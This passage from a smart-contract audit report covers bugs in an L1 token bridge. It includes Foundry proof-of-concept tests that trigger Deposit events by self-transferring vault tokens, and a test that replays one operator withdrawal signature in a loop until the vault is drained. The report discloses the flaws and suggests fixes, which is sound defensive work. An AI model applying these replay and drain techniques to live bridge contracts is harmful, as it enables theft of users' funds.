 As a PoC, include the following test in the `L1TokenBridge.t.sol` file:

```javascript
function testCanTransferFromVaultToVault() public {
    vm.startPrank(attacker);

    // assume the vault already holds some tokens
    uint256 vaultBalance = 500 ether;
    deal(address(token), address(vault), vaultBalance);

    // Can trigger the `Deposit` event self-transferring tokens in the vault
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    // Any number of times
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    vm.stopPrank();
}
```

As suggested in H-1, consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

### [H-3] Lack of replay protection in `withdrawTokensToL1` allows withdrawals by signature to be replayed

Users who want to withdraw tokens from the bridge can call the `sendToL1` function, or the wrapper `withdrawTokensToL1` function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.

However, the signatures do not include any kind of replay-protection mechanisn (e.g., nonces). Therefore, valid signatures from any  bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.

As a PoC, include the following test in the `L1TokenBridge.t.sol` file:

```javascript
function testCanReplayWithdrawals() public {
    // Assume the vault already holds some tokens
    uint256 vaultInitialBalance = 1000e18;
    uint256 attackerInitialBalance = 100e18;
    deal(address(token), address(vault), vaultInitialBalance);
    deal(address(token), address(attacker), attackerInitialBalance);

    // An attacker deposits tokens to L2
    vm.startPrank(attacker);
    token.approve(address(tokenBridge), type(uint256).max);
    tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerInitialBalance);

    // Operator signs withdrawal.
    (uint8 v, bytes32 r, bytes32 s) =
        _signMessage(_getTokenWithdrawalMessage(attacker, attackerInitialBalance), operator.key);

    // The attacker can reuse the signature and drain the vault.
    while (token.balanceOf(address(vault)) > 0) {
        tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
    }
    assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
    assertEq(token.balanceOf(address(vault)), 0);
}
```
